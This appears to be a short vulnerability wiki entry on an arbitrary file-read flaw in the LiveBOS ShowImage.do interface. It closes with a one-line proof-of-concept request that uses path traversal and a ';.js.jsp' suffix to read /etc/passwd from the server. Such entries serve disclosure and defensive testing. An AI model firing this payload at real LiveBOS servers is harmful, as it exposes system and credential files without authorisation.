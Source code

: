# LiveBOS ShowImage.do Arbitrary file reading vulnerability

## Vulnerability Description

There is a vulnerability to read arbitrary file in the LiveBOS ShowImage.do interface. An attacker can obtain sensitive files in the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">LiveBOS</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1692167542101-f3880815-0b7c-4042-ba05-367aba446765.png)

Verify POC

```plain
/feed/ShowImage.do;.js.jsp?type=&imgName=../../../../../../../../../../../../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1692167639036-b19192bb-12d1-4dff-bda7-02d6fa610224.png)